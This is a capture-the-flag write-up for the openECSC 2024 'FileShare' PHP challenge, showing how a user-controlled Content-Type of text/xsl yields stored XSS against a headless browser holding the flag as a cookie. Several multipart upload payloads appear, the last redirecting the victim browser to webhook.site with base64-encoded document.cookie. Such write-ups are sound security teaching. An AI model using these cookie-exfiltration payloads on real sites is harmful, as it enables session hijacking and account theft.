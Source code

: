 ```yaml
---
title: FileShare
date: 2025-01-18 11:00:00
tags: [web, php, openECSC-2024]
draft: false
heroImage: ./assets/openECSC.png
---
```


<style>
.basis-1\/5{flex-basis: 5% !important;}
.max-w-prose{max-width: 100ch !important;}
.prose{max-width: 100ch !important;}
</style>

# FileShare

```
You can now share your files for free thanks to our new disruptive technology!

Site: https://fileshare.challs.open.ecsc2024.it
```
attatchment: fileshare.zip
author: Xato

## Initial details
We get the source code included in this challenge, and a shared instance.
The language used for the website is php, and in the Dockerfile there is a headless browser running in the background.

We can assume that we need to extract the flag from the headless browser, and that there is no RCE.

## Functionality
The website allows you to upload any file, download uploaded files from your session, list all the files in your session and send a file to support.

Support page will make the browser start a new session, set the flag as a cookie, and download the file that is sent. The backend checks if the fileId is valid before doing the requests. 

## Unusual code
After looking around the code for unusual code, this was the first thing that looked weird to me.
Why would one only filter out content-types with letter h in it.

```php
$type = $_FILES["file"]["type"];
// I don't like the letter 'h'
if ($type == "" || preg_match("/h/i", $type) == 1){
	$type = "text/plain";
}
```

Next is to see how this is used later in the download process.

```php
$path = "/uploads/$id";
header('Content-Type: '. $row['content_type']);
readfile($path);
```

It sets the `Content-Type` header to be what we can control during the upload. 

## How can we use content type to get XSS?
Firefox MDN Docs is very useful when you need to understand a concept within web.
A quick summary of what the Content-Type header does from [Content-Type docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type)
```
In responses, the `Content-Type` header informs the client about the media type of the returned data.
```

We know that if we open a html file from a website, it will also execute the javascript on there.
Could there be any other file types that also allows for code execution. 

After doing a quick Google I found this research page:
https://github.com/BlackFan/content-type-research/blob/master/XSS.md

Testing out the POC on chromium browser for the content-type `text/xsl` seems to work.

## Crafting our payload

```php
$url = 'http://' . getenv('HEADLESS_HOST');
$chall_url = 'http://' . getenv('WEB_DOM');
$act1 = array('type' => 'request', 'url' => $chall_url);
$act2 = array('type' => 'set-cookie', 'name' => 'flag', 'value' => getenv('FLAG'));
$act3 = array('type' => 'request', 'url' => $chall_url . '/download.php?id=' . $fileid);
```

We know here that it sets the flag using set-cookie, and we need to get it back to us.

I usually do a fetch with base64 encoded of the cookie data the browser has stored for the page.

```html
-----------------------------13099661571703276204376214506
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/xsl

<script>
fetch('https://webhook.site/...?flag=' + btoa(window.cookie))
</script>
-----------------------------13099661571703276204376214506--
```

But this time it didn't seem to work?

Let's test out if it sends a request by using a img tag with source set to the webhook.

```html
-----------------------------13099661571703276204376214506
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/xsl

<script>
	<img src="https://webhook.site/..."></img>
</script>
-----------------------------13099661571703276204376214506--
```
![successful image request](./assets/fileshare-request-image.png)

Yes it worked!

Could it be that the browser does not have fetch or blocks network calls out?

```html
-----------------------------13099661571703276204376214506
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/xsl

<script>window.location = "https://webhook.site/..."</script>
-----------------------------13099661571703276204376214506--
```

This should make the webpage navigate to the webhook website.

![successful navigate request](./assets/fileshare-request-navigate.png)

And that works!

## Payload

I used Firefox *edit and resend* to change the Content-Type and the content of the file being uploaded.
```html
-----------------------------13099661571703276204376214506
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/xsl

<script>
document.location = "https://webhook.site/.../?flag=" + btoa(document.cookie);
</script>
-----------------------------13099661571703276204376214506--
```

The payload sets the Content-Type to text/xsl and the content is a script that redirects the page to our webhook with the cookie being encoded as base64 as a query parameter.